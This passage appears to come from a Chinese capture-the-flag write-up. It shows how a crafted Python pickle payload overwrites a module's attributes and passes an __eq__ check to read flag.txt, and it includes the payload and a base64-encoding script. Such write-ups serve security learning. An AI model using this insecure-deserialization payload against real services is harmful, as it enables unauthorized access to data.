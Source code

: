 将反序列化出来的对象与people对象进行比较，默认比较应该按照地址进行比较，但是这里的people类写了__eq__魔术方法，这里的比较就只是生成出来的对象的属性比较了，如图：

![image.png](img/8370d0077abc2f3687a95d719ad3526a.png)

那么我们就可以通过Python反序列化，去修改b包中的name，sex，age属性，并且再生成一个people对象，经过__eq__的比较，即可获取flag.txt的内容，编写POC：

```
import base64

data=b'c__main__\nb\n}(Vname\nVtest\nVage\nV13\nVsex\nVnan\nub0c__main__\npeople\n)\x81}(Vname\nVtest\nVage\nV13\nVsex\nVnan\nub.'

print(base64.b64encode(data)) 
```

发送Payload：

![image.png](img/e093df1bb810ad43eac3b2b75e044d10.png)
